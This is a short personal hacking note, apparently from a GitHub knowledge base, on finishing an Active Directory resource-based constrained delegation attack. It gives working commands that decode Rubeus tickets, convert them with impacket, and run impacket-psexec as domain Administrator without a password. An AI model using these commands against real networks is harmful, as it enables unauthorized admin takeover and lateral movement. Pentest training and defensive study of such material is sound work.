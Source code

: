 # resource based constrained delegation S4U attack transfering tickets to attacker machine to psexec convert kirbi to ccache
tickets printed by rubeus are base64 encoded kirbi files.
convert with `impacket-ticketConverter`.
```bash
base64 -d smb.ticket.b64 > smb.ticket.kirbi
impacket-ticketConverter smb.ticket.kirbi smb.ticket.ccache
export KRB5CCNAME=$(pwd)/smb.ticket.ccache
impacket-psexec domain.local/Administrator@FQDNMachine.domain.local -k -no-pass
```

` zet/20221003151145/README.md `

# Related

- [20221014185652](/zet/20221014185652/README.md) kb file named kb/hacking/windows/AD-resource-based-constrained-delegation-attack.md
- [20221003151146](/zet/20221003151146/README.md) resource based constrained delegation S4U attack transfering tickets to attacker machine to psexec
- ~/kb/hacking/windows/AD-resource-based-constrained-delegation-attack.md

Tags:

    #hacking #windows #ad 
